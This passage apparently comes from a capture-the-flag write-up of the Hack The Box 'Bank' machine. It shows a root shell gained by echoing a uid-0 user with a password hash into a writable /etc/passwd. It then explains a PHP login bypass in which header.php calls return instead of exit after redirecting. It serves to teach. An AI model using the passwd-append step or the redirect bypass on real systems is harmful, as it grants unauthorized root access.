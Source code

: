 I’ll add a line to `/etc/passwd` using `echo`:

```

www-data@bank:/$ echo 'oxdf:$1$q6iY9K5M$eYK1fPmp6OfjbHhWGqZIf0:0:0:pwned:/root:/bin/bash' >> /etc/passwd

```

The format of the line is colon separated username (can’t start with a digit), password hash, user id, group id, comment, home directory, shell.

With the user added, I can just `su` to that user, which returns as root:

```

www-data@bank:/$ su - oxdf
Password: 
root@bank:~#

```

## Beyond Root

### Redirect Failure

I was able to access the site without logging in because it was sending the requested pages in full as part of the 302 redirect response. As I guessed, each of the PHP pages on the site have the code `include './inc/header.php';`.

Looking at `header.php`, it includes a lot of the formatting and the top menu bar. It also does session management with this code:

```

session_name("HTBBankAuth");
session_start();

if(empty($_SESSION['username'])){
        header("location: login.php");
        return;
}

```

The problem here is the `return;`. [This function](https://www.php.net/manual/en/function.return.php) will:

> *return* returns program control to the calling module. Execution resumes at the expression following the called module’s invocation.

If this were in the main code, this would actually work. It does end processing of the rest of `header.php`, which is why when I bypassed the login, the page didn’t have the header bar or any of the CSS formatting. But it just returns to the calling page, and that page continues processing.

If I change that return to `exit;`, now visiting `http://bank.htb` returns a proper 302 message:
